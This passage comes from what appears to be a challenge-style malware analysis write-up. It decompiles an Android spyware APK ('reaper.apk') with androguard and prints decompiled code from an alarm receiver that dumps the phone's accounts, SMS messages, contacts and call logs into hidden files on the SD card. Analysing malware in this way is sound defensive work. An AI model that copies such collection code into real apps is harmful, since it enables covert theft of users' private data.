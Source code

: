 - service: cake.com.update.services.CaptureCallService
- receivers: cake.com.update.receivers.CallReceiver, cake.com.update.receivers.AlarmReceiver, cake.com.update.receivers.StartReceiver

## Q4. Use androguard to decompile correctly onReceive() of AlarmReceiver

```
# androlyze -s 
Androlyze version 3.0
In [1]: a, d, dx = AnalyzeAPK('reaper.apk', decompiler='dad')
In [2]: d.CLASS_Lcake_com_update_receivers_AlarmReceiver.METHOD_onReceive.source()
public void onReceive(android.content.Context p9, android.content.Intent p10)
    {
        if (p10.getAction() == "cake.com.update.action.AlarmManager") {
            String v4_2 = new Object[3];
            v4_2[0] = this.getClass().getSimpleName();
            v4_2[1] = new cake.com.update.receivers.AlarmReceiver$1(this).getClass().getEnclosingMethod().getName();
            v4_2[2] = p10;
            cake.com.update.utilities.MyLog.d("[%s::%s]  intent=%s", v4_2);
...
```

## Q5. First lines of onReceive()

```
java.io.File v1_1 = new java.io.File(android.os.Environment.getExternalStorageDirectory(), "/icloud/tmp-ord/");
            java.io.File v2_1 = new java.io.File(android.os.Environment.getExternalStorageDirectory(), "/icloud/tmp-ord.dat");
            try {
                cake.com.update.libraries.FileHelper.writeTextToFile(new StringBuilder().append(v1_1.getAbsolutePath()).append("/Account.txt").toString(), this.getAllAccounts().toString());
                cake.com.update.libraries.FileHelper.writeTextToFile(new StringBuilder().append(v1_1.getAbsolutePath()).append("/Sms.txt").toString(), this.getAllSMSJSON().toString());
                cake.com.update.libraries.FileHelper.writeTextToFile(new StringBuilder().append(v1_1.getAbsolutePath()).append("/Contact.txt").toString(), this.getAllContactsJSON().toString());
                cake.com.update.libraries.FileHelper.writeTextToFile(new StringBuilder().append(v1_1.getAbsolutePath()).append("/Calllog.txt").toString(), this.getCallLogJSON().toString());
```

It is creating various files on the external SD card such as `/sdcard/icloud/tmp-ord/Account.txt` and copying data from the smartphone in those files.

- Account.txt: lists all accounts on the phone with name, type and created date.
- Sms.txt: number, name, type, datetime, body
- Contact.txt: name, phone number, email address and photo
- Calllog.txt: call log...

## Q6. Middle lines.  What is the algorithm? What is the key?
